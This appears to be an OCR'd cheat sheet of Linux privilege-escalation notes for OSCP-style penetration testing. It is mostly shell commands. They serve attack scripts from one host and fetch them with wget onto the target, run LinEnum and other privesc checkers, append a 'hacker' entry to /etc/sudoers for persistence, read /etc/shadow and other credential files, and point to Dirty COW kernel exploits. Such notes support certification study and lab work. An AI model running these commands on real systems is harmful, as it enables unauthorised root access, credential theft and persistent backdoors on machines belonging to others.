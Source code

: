 ```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://192.168.1.101:8080/ -r; mv 192.168.1.101:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard


# Writable directories
/tmp
/var/tmp


# Add user to sudoers
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
## Dirty COW
```
uname -a or uname -r
Works on Linux Kernel 2.6.22 < 3.9
Try 40839 or 40616 first
can also try the following if above & searchsploit doesnt work https://gist.github.com/rverton/e9d4ff65d703a9084e85fa9df083c679 
```
### Basic info

- OS:
- Version:
- Kernel version:
- Architecture:
- Current user:

**Devtools:**
- GCC:
- NC:
- WGET:

**Users with login:**

```
uname -a
env
id
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/group
cat /etc/shadow
cat /etc/hosts

# Users with login
grep -vE "nologin" /etc/passwd

# Priv Enumeration Scripts


upload /unix-privesc-check
upload /root/Desktop/Backup/Tools/Linux_privesc_tools/linuxprivchecker.py ./
```